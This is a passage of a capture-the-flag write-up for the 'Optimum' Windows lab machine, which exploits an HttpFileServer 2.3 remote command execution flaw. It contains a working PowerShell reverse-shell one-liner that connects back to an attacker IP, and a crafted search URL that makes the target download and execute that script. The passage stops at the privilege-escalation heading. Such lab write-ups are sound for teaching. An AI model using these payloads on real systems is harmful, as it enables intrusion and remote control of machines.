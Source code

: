 # Optimum - Windows, easy (10.10.10.8)

### Enumeration
```
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

In the website the most interesting things are a Login button and some server informations:
```
HttpFileServer 2.3
Server time: 26/8/2022 1:55:10 πμ
Server uptime: 00:04:24
```

Searching with `searchsploit HttpFileServer 2.3`, we can find a script that essentially performs an HTTP request for `/?search={.+exec|[url-encoded command].}`, and allows us to perform RCE.

### Obtaining Kostas
To get a shell, we can create a powershell script and write in it the following data:
```
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

which is an reverse shell in PowerShell taken from [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1).

To exploit the vulnerability and make it execute our reverse shell we need to setup an http server with python and a netcat listener.

Then, visit: `http://10.10.10.8/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.2/rev.ps1').}` to make the target download our rev.ps1 file (the reverse shell in PowerShell).
When the file is downloaded, it is also executed by IEX (Invoke-Expression: runs command or expression on the local computer), and then shell connects back to our listening nc.

At this point we can get the first flag!

### From Kostas to Root
